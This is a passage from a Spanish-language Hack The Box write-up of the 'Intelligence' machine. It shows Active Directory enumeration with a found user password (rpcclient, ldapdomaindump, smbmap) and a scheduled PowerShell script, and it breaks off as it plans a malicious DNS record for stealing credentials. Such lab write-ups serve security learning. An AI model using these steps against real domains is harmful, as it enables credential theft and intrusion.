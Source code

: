 ```console
└─$ rpcclient -U "Tiffany.Molina%NewIntelligenceCorpUser9876" 10.10.10.248  -c 'querydispinfo'
	# Nada interesante
```
Hay una herramienta llamada ldapdomaindump para conseguir una visual mas rapida del dominio.  
```console
└─$ ldapdomaindump -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' 10.10.10.248
[*] Starting domain dump
[+] Domain dump finished
└─$ sudo python3 -m http.server 80
```
![](/assets/images/htb-inteligence/inteligence5.PNG)
![](/assets/images/htb-inteligence/inteligence6.PNG)

- Nuestra usuaria no esta en ningun grupo  
- No hay Remote Mangement Users por lo que nadie se puede conectar por winrm  

```console
└─$ smbmap -H 10.10.10.248 -u "Tiffany.Molina" -p 'NewIntelligenceCorpUser9876'
	IT                                                	READ ONLY
	NETLOGON                                          	READ ONLY	Logon server share
	SYSVOL                                            	READ ONLY	Logon server share
	Users                                             	READ ONLY

# El sysvol no tiene el groups.xml a si que nada
└─$ smbmap -H 10.10.10.248 -u "Tiffany.Molina" -p 'NewIntelligenceCorpUser9876' -r IT
└─$ smbmap -H 10.10.10.248 -u "Tiffany.Molina" -p 'NewIntelligenceCorpUser9876' -d IT/downdetector.ps1
```
-------------------------------
## Part 4: Creación de un registro DNS 

El script es algo asi como: 
```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try { $request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
} } catch {} }
```
De todos los DNS records se queda con los que empiecen por "web" y hace una peticion a ellos. 
Hay que crear un DNS malicioso que empiece por web y que se autentique a él para robar las creds: 